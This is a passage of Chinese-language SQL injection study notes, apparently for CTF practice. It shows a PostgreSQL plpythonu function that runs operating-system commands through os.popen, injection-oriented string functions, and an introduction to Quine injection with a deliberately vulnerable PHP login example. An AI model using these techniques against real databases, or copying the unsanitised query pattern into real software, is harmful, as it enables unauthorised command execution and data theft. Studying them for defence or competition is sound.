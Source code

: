 4、`CREATE OR REPLACE FUNCTION system_exec(text) RETURNS text AS $$ import os `

`return os.popen(args[0]).read() $$ LANGUAGE plpythonu; SELECT system_exec('...');`

三目运算符：`CASE WHEN condition THEN true_val ELSE false_val END`

类型转换：`::INT`

字符串处理：`SUBSTR('foobar', <START>, <LENGTH>)`

`SUBSTRING('foobar', <START>, <LENGTH>)、`

`SUBSTRING('foobar' FROM <START> FOR <LENGTH>)`

`ENCODE(data, 'base64'), DECODE(data, 'base64')`

`CHR(code), ASCII(char)`

`CONCAT()，||`

### MS SQL

### Oracle

### SQLite


## 更高级的注入

### Quine 注入（Teru）

> 奎因程序（Quine）是一种特殊的计算机程序，其特点是不接受任何输入，却能输出自身的完整源代码。在可计算性理论和计算机科学文献中，这类程序通常被称为"自复制程序"、"自再生程序"或"自拷贝程序"。

在sql注入应用中，如果遇到源代码存在特定的判断逻辑，可以利用类似Quine的方法让 sql 语句输出自己，从而实现绕过。

**基本要求：要求存在类似 replace 的函数，可以把一个字符串内容复制成两份。（注意是必要条件不是充分条件）**

例题：

```php
$password=$_POST['password'];
if ($username !== 'admin') {
    alertMes('only admin can login', 'index.php');
}
checkSql($password);
$sql="SELECT password FROM users WHERE username='admin' and password='$password';";
$user_result=mysqli_query($con,$sql);
$row = mysqli_fetch_array($user_result);
if (!$row) {
    alertMes("something wrong",'index.php');
}
if ($row['password'] === $password) {
	die($FLAG);
}
```
